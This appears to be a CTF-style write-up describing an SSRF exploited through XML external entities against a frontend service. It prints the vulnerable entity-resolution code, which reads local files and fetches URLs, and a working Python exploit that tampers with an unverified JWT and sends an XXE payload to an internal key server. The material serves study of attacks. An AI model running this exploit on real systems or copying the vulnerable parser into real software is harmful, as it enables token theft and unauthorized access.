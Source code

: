 ## SSRF attack inside XML payload
It was possible to send a payload in XML format to the frontend service. It allowed to load an external entity from a file and from the web. Then it was possible to get the token in the retrieved data and use it again to generate the secret. Each time a request is made, the newly obtained auth cookie needs to be saved as the application performs secret rotation. Therefore, it is subsequently necessary to use up to the next generated secret several times, as the rotation is done by successive generated secrets.
This exploit only worked if the table in KeyServer was fixed.

```py
...
def parseXMLData(xmlString):
    if not xmlString:
        return None,"Please provide a string"
    reg = regex.compile(r'<!ENTITY\s+(\w+)\s+SYSTEM\s+"([^"]+)">')
    for found in reg.finditer(xmlString):
        uri = found.group(2)
        content = ""
        if uri[:4] == "file":
            try:
                content = open(uri[7:],"rb").read()
            except:
                return None,"Couldnt read File"
        elif uri[:4] == "http":
            try:
                content = bytes(urllib.request.urlopen(uri,timeout=3).read()) # Loading token from KeyServer
            except:
                return None,"Couldnt read Website"
        else:
            return None,"Invalid Protocol"
        xmlString = regex.sub(f"{found.group(1)} SYSTEM", found.group(1), xmlString)
        content = str(base64.b64encode(content))[2:-2]
        xmlString = regex.sub(f"{found.group(2)}",content, xmlString)
...
```

### Exploit
```py
...
def get_auth_cookie(title = "randomTitle", image = "image.jpg"):
    im = Image.new("RGB", (100, 100)) # Create a new image
    im.info["exif"] = piexif.dump({"0th": {270: bytes.fromhex("466c6f707079657469").decode('utf-8')}}) # "Floppyti" EXIF data

    imgByteArr = io.BytesIO() # Create a new byte array
    im.save(imgByteArr, format="JPEG", exif=im.info["exif"]) # Save the image to the byte array

    response = requests.post(f"http://[HOST]:5000/upload", data={"title": title}, files={"image": (image, imgByteArr.getvalue())}) # Upload the image to the server
    return response.cookies["auth"] # Return the auth cookie

auth_cookie = get_auth_cookie() # Get the auth cookie
auth = jwt.decode(auth_cookie,options={"verify_signature":False}) # Decode the auth cookie without verifying the signature
auth["level"] = 2 # Set the level to 2

data = {
    'xmlData': f'<!DOCTYPE dataRoot SYSTEM "/src/static/location.dtd" [ <!ENTITY example SYSTEM "http://KeyServer:5001/getToken/{auth["uuid"]}"> ]><dataRoot><formType>location</formType><latitude>-16.984938</latitude><longitude>-162.643507</longitude><description>start&example;end</description></dataRoot>'
} # Malicious payload
```